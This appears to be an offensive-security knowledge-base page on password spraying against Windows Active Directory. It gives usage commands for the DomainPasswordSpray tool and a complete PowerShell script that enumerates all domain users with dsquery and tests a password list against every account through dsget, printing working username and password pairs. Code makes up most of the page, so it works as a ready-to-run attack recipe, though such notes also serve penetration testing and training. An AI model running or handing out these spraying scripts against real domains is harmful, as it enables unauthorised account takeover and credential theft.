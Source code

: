 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - offensive-tools
  - windows
---
```

# Scripts

## DomainPasswordSpray

TODO: Fill this info

Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

Specifying a password list then check for [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

https://pwn.no0.be/exploitation/password/account_lockout/

```
PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

## SANS

```powershell
dsquery.exe user -limit 0 > users.txt
foreach ($FDN in Get-Content .\users.txt) {
    $results = dsget.exe user $FDN -samid
    $samid = $results[1].replace(" ", "")
    Write-Output $samid
    foreach ($password in Get-Content .\password.txt) {
        $password = $password.replace(" ", "")
        dsget.exe user $FDN -u $samid -p $password > $null
        if ($?) {
            Write-Output "Account: $samid\tPassword $password"
        }
    }
}
```

---
## References

### Github

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

### SANS

- [SANS: Usernames Matter More than Passwords](https://web.archive.org/web/20111008220143/https://it-audit.sans.org/blog/2011/09/21/usernames-matter-more-than-passwords)

### Pwnage Base

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)